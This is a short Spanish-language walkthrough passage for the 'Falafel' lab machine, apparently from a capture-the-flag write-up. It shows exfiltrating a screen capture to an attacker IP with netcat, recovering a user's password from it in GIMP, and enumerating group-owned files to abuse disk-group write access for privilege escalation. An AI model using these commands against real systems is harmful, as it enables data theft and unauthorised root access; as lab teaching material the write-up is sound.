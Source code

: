 1. Enviamos la captura a nuestra maquina de atacante

    - en la maquina de atacante

        ```bash
        nc -nlvp 443 > Captura
        ```

    - en la maquina victima

        ```bash
        nc 10.10.14.15 443 < Captura
        ```

1. Abrimos la captura con Gimp

    - Aun que la apertura del fichero a fallado le damos al menu Archivo > Abrir 
    - Seleccionamos el typo de archivo Datos de imagen en bruto

        ```{r, echo = FALSE, fig.cap="Gimp - Archive brute data", out.width="90%"}
        knitr::include_graphics("images/Falafel-open-capture.png")
        ```

    - Entramos la proporciones de la virtual_size

Aqui podemos ver la contraseña del usuario yossi. Cambiamos de usuario con el comando 
```bash
 su yossi 
```
.

Desde aqui volmemos a intentar a rootear la maquina desde el usuario yossi.

```
![Falafel-oe-cature](/assets/images/Falafel-open-capture.png) 

Como otra vez un grupo, en este caso el grupo disk nos llama la atencion, volmemos a hacer lo mismo con el listeo de ficheros de cada grupo

```bash
for group in $(groups); do echo -e "\n[+] Listando archivos del sistema con grupo $group asignado:\n"; find / \-group $group 2>/dev/null; done
```

Aqui vemos que 
```bash
 /dev/sda1 
```
 es parte del grupo disk. Si le hacemos un ``ls -l /dev/sda1` podemos ver que el grupo disk tiene derecho de escritura. 
Controlamos si estamos en 
```bash
 /dev/sda1 
```
 con el comando 
```bash
 fdisk -l 
```
 y vemos que es el disco con 7G (El mas grande = el disco en uso).
